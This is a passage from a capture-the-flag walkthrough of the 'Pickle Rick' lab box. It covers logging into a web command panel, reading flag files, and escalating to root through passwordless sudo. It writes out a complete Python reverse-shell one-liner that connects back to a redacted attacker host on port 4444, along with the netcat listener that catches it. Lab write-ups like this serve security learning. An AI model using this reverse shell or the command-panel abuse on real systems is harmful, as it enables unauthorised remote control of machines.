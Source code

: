 ```highlight
2021/01/06 22:16:54 Finished
===============================================================
```

login.php and clue.txt look interesting, going to http://10.10.116.216/clue.txt provides:

> Look around the file system for the other ingredient.

Not really much of a clue so I looked at login.php

![login](/assets/images/picklerick/login.png)

After trying some common default credentials I was able to log in with the username found in the source code and the word found in robots.txt.

![command](/assets/images/picklerick/command.png)

All the links expect 'Commands' directs to http://10.10.116.216/denied.php so I tried some basic command such as ls, id, pwd, whoami and they all work.

![ls](/assets/images/picklerick/ls.png)

However when I try and cat Sup3rS3cretPickl3Ingred.txt I get an error.

![commanddisabled](/assets/images/picklerick/commanddisabled.png)

Fortunately I can just web browse directly to the file http://10.10.116.216/Sup3rS3cretPickl3Ingred.txt, 1 down 2 to go.

### Initial Access

I want to get a shell on the box, so I checked for python or python3. 

![python3](/assets/images/picklerick/python3.png)

Great I can use python3 to get a reverse shell assuming the commands not blocked. Using the following command I get a shell!

/usr/bin/python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<REDACTED>",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

```highlight
└──╼ $nc -nvlp 4444
listening on [any] 4444 ...
connect to [<REDACTED>] from (UNKNOWN) [10.10.116.216] 37984
/bin/sh: 0: can't access tty; job control turned off
$ 
```

### Priv Esc

Although I need to search for the other 2 ingredients. I wanted to escalate my privilages, I checked 'sudo -l' and I can run any sudo command with out a password so I do a simple 'sudo su' to become root.
